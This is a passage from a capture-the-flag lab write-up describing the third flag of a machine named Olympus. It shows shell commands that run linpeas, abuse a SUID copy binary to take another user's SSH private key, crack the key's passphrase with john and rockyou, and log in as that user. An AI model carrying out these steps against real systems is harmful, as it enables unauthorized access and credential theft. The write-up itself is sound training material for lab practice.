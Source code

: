 ### Flag 3


Download `linpeas.sh` from <a href="https://github.com/carlospolop/PEASS-ng/releases/tag/20220918" target="_blank">PEASS-ng Github</a> and transfer it to the victim machine.

```shell
www-data@olympus:/dev/shm$ chmod +x linpeas.sh 
www-data@olympus:/dev/shm$ ./linpeas.sh
[REDACTED]
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════                         
╔══════════╣ SUID - Check easy privesc, exploits and write perms                                                      
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 zeus zeus 18K Apr 18 09:27 /usr/bin/cputils (Unknown SUID binary)
[REDACTED]
```


There is an interesting `SUID` binary (`/usr/bin/cputils`), that provides `copy` functionality. In `/home/zeus` there was a folder `.ssh`, that should contain the private key of user `zeus`. So, we can copy it to `/dev/shm/` and transfer it our machine in order to login as `zeus`.

```shell
www-data@olympus:/dev/shm$ /usr/bin/cputils
  ____ ____        _   _ _     
 / ___|  _ \ _   _| |_(_) |___ 
| |   | |_) | | | | __| | / __|
| |___|  __/| |_| | |_| | \__ \
 \____|_|    \__,_|\__|_|_|___/
                               
Enter the Name of Source File: /home/zeus/.ssh/id_rsa

Enter the Name of Target File: /dev/shm/id_rsa

File copied successfully.
```

The `id_rsa` is password protected, so we can generate a hash of the file with `ssh2john.py`, then crack the hash with `john` and login as `zeus` with `SSH`, after modifying the permissions of the `id_rsa`.

```shell
geobour98@kali:~$ python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
geobour98@kali:~$ john -w=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8                                                                                   
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])                                              
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes                                    
Cost 2 (iteration count) is 16 for all loaded hashes                                                                  
Will run 12 OpenMP threads                                                                                            
Press 'q' or Ctrl-C to abort, almost any other key for status                                                         
[REDACTED]       (id_rsa)                                                                                             
1g 0:00:00:13 DONE (2022-09-23 13:14) 0.07558g/s 116.0p/s 116.0c/s 116.0C/s rachelle..mexico1                         
Use the "--show" option to display all of the cracked passwords reliably                                              
Session completed.
geobour98@kali:~$ chmod 600 id_rsa
geobour98@kali:~$ ssh -i id_rsa zeus@10.10.203.170
```